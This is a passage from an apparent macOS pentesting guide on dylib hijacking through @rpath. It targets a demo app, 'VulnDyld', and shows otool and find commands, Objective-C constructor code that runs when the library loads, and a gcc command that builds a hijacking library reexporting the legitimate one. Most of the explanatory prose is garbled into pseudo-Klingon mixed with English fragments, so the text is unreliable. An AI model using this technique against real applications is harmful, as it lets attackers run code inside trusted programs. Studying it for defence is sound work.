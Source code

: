 {% tab title="@rpath" %}
{% code overflow="wrap" %}
```bash
# Check librareis loaded using @rapth and the used versions
otool -l "/Applications/VulnDyld.app/Contents/Resources/lib/binary" | grep "@rpath" -A 3
name @rpath/lib.dylib (offset 24)
time stamp 2 Thu Jan  1 01:00:02 1970
current version 1.0.0
compatibility version 1.0.0
# Check the versions
```
{% code %}
{% endcode %}
{% endtab %}
{% endtabs %}

**QaparHa'** vItlhutlh **ghItlh** **lo'laHbe'** **ghItlh** **'e'** **lo'laHbe'**:

* `/Applications/VulnDyld.app/Contents/Resources/lib/lib.dylib`
* `/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib`

**'ej,** **wa'** **lo'laHbe'** **pagh** **jatlh**:
```bash
pwd
/Applications/VulnDyld.app

find ./ -name lib.dylib
./Contents/Resources/lib2/lib.dylib
```
So, vItlhutlh! yItlhutlh **arbitrary code 'ej exports the same functionalities** as the legit library by reexporting it. 'ej jatlhqa'laHbe'lu'pu' ghaH 'ej vItlhutlhDaq vItlhutlhlaHbe'lu'pu' ghaH:

{% code title="lib.m" %}
```objectivec
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv) {
NSLog(@"[+] dylib hijacked in %s", argv[0]);
}
```
{% endcode %}

QaSuvtaHvIS:

{% code overflow="wrap" %}
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation /tmp/lib.m -Wl,-reexport_library,"/Applications/VulnDyld.app/Contents/Resources/lib2/lib.dylib" -o "/tmp/lib.dylib"
# Note the versions and the reexport
```
{% endcode %}

reexport path created in the library is relative to the loader, lets change it for an absolute path to the library to export:
